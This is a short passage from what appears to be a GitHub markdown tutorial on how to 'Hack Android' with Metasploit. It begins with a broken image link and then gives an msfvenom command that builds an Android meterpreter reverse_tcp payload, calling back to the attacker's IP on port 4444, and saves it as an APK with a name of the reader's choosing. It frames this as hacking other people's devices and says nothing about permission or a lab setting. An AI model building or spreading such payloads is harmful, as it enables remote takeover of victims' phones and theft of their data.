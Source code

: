 after [Installing Metasploit](https://github.com/Muhammad-Mirab/Peneterator-Panter/blob/master/Insatlling%20Metasploit.md) now you are able to hack some devices like Android,Windows etc. and today we're going to show you how can you Hack Android

so at the first we have to build a payload for android!

`<msfvenom -p android/meterpreter/reverse_tcp LHOST=<your ip address> LPORT=4444 R > <the name that you wanna choose for your application>.apk>`

